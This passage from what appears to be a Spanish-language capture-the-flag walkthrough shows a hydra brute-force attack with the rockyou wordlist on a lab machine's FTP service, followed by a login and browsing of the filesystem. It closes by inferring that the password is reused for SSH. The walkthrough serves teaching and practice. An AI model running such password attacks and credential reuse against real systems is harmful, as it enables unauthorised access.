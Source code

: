 Primero, probemos con el **FTP** usando **hydra** para aplicarle fuerza bruta:
```bash
hydra -l 'robin' -P /usr/share/wordlists/rockyou.txt ftp://192.168.10.160 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-04 13:25:06
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://192.168.10.160:21/
[21][ftp] host: 192.168.10.160   login: robin   password: *****
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 15 final worker threads did not complete until end.
[ERROR] 15 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-04 13:25:53
```
Excelente, tenemos su contraseña para el **servicio FTP**.

Probémosla:
```bash
ftp 192.168.10.160
Connected to 192.168.10.160.
220 Bienvenido Robin
Name (192.168.10.160:berserkwings): robin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||63841|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              21 Oct 07  2024 user.txt
226 Directory send OK.
```
Parece que el **FTP** está montado sobre el **servicio SSH** para este usuario.

Comprobémoslo:
```bash
ftp> cd /
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||45975|)
150 Here comes the directory listing.
lrwxrwxrwx    1 0        0               7 Apr 22  2024 bin -> usr/bin
drwxr-xr-x    2 0        0            4096 Feb 26  2024 bin.usr-is-merged
drwxr-xr-x    3 0        0            4096 Oct 02  2024 boot
dr-xr-xr-x    2 0        0            4096 Aug 27  2024 cdrom
drwxr-xr-x   19 0        0            4040 Jul 04 18:23 dev
drwxr-xr-x  109 0        0            4096 Oct 15  2024 etc
drwxr-xr-x    3 0        0            4096 Oct 07  2024 home
lrwxrwxrwx    1 0        0               7 Apr 22  2024 lib -> usr/lib
drwxr-xr-x    2 0        0            4096 Feb 26  2024 lib.usr-is-merged
lrwxrwxrwx    1 0        0               9 Apr 22  2024 lib64 -> usr/lib64
drwx------    2 0        0           16384 Oct 02  2024 lost+found
drwxr-xr-x    2 0        0            4096 Aug 27  2024 media
drwxr-xr-x    2 0        0            4096 Aug 27  2024 mnt
drwxr-xr-x    2 0        0            4096 Aug 27  2024 opt
dr-xr-xr-x  165 0        0               0 Jul 04 18:23 proc
drwx------    5 0        0            4096 Oct 10  2024 root
...
```
En efecto, entonces, es muy probable que esté ocupando la misma contraseña para el **SSH**.
